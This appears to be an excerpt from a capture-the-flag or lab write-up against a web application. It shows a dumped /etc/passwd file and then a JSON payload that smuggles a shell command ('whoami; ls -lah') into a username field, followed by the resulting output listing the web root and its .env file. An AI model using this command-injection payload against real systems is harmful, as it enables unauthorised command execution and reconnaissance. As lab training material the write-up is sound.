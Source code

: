 ```
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
admin:x:1000:1000::/home/admin:/bin/bash
memcache:x:115:121:Memcached,,,:/nonexistent:/bin/false
_laurel:x:998:998::/var/log/laurel:/bin/false
```

Information gathering.

Payload:
```
{
    "email": "",
    "username":"; echo `whoami; ls -lah .` ; "
}
```

Result:
```
www-data

total 56K 
. drwxr-xr-x 3 root root 4.0K Jun 6 2023 
.. -rw-r--r-- 1 root root 87 Jun 2 2023 
.env -rw-r--r-- 1 root root 1.3K Jun 2 2023 
Database.php -rw-r--r-- 1 root root 2.8K Jun 2 2023 
Router.php drwxr-xr-x 5 root root 4.0K Mar 20 21:30 
VPN drwxr-xr-x 2 root root 4.0K Jun 6 2023 
assets drwxr-xr-x 2 root root 4.0K Jun 6 2023 
controllers drwxr-xr-x 5 root root 4.0K Jun 6 2023 
css drwxr-xr-x 2 root root 4.0K Jun 6 2023 
fonts drwxr-xr-x 2 root root 4.0K Jun 6 2023 
images -rw-r--r-- 1 root root 2.7K Jun 2 2023 
index.php drwxr-xr-x 3 root root 4.0K Jun 6 2023 
js drwxr-xr-x 2 root root 4.0K Jun 6 2023 views
```
